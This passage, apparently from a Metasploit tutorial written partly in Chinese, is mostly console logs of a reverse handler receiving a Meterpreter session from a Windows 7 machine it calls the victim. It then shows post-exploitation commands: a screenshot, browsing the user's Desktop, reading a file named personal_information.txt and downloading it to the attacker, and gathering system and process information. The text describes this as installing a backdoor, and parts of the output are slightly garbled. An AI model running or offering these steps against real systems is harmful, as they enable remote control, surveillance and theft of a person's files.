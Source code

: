 ```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.102.145:1234
[*] Starting the payload handler...
[*] 192.168.102.152 - Mterpreter session 2 closed. Reason: Died
```

切换回受害者机器，输入密码。再回到攻击者机器。一旦用户登录了，我们获得一个新的Mterpreter session。

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.102.145:1234
[*] Starting the payload handler...
[*] 192.168.102.152 - Mterpreter session 2 closed. Reason: Died
[*] Sending stage (770048 bytes) to 192.168.102.152
[*] Mterpreter session 3 opened (192.168.102.145:1234 -> 192.168.102.152:49160) at 2015-01-22 18:25:25 +0100
[*] Sending stage (770048 bytes) to 192.168.102.152

meterpreter >
meterpreter >
meterpreter >
```

```
meterpreter > ifconfig
```

This is the simple method of installing backdoor on the victim machine.

```
meterpreter > screenshot
Screenshot saved to: /root/hcelmVwk.jpeg
```

```
eog /root/hcelmVwk.jpeg
```

```
meterpreter > pwd
C:\Users\els
meterpreter > cd Desktop
meterpreter > ls
meterpreter > cd Important
meterpreter > ls
meterpreter > cat personal_information.txt
Secret!!!
meterpreter > download personal_information.txt /root/Desktop
meterpreter > upload
meterpreter > sysinfo
Computer        : WIN-65EMTLPDBMA
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
meterpreter > ps # retrive list of process
meterpreter > help

Stdapi: System Commands
=================================
Command         Description
execute         Execute a command
reboot          Reboots the remote computer
shutdown        Shuts down the remote computer

Stdapi: User interface Commands
=================================
Command         Description
```